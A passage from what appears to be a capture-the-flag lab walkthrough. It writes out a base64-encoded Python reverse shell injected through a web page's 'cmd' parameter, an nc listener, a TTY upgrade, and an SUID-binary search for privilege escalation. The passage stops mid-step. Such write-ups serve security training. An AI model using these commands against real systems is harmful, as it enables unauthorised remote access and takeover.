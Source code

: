```
ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjU2LjE0MiI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL3NoIikn
```

Now our url should look like this: 

```
http://192.168.56.153/system.php?cmd=ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjU2LjE0MiI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL3NoIikn
```

Start listner on port 4444

```
nc -nlvp 4444
```

And BOOM we got a reverse shell

![img](assets/nc_rshell.png)

At first spawn a [TTY](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) shell by using python3: 

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

### Finding SUID's

```
find / -perm /4000 2>/dev/null
```

we found: 

```
/usr/bin/vim.basic
/usr/bin/sed
```

I tried to run vim but it says `bash: /usr/bin/vim: Permission denied`

let's check whats in sarthak's home folder

We found a `.secret` file and it says:
`password of sarthak is in passwd file`


Let's find passwd file by folloing command: 
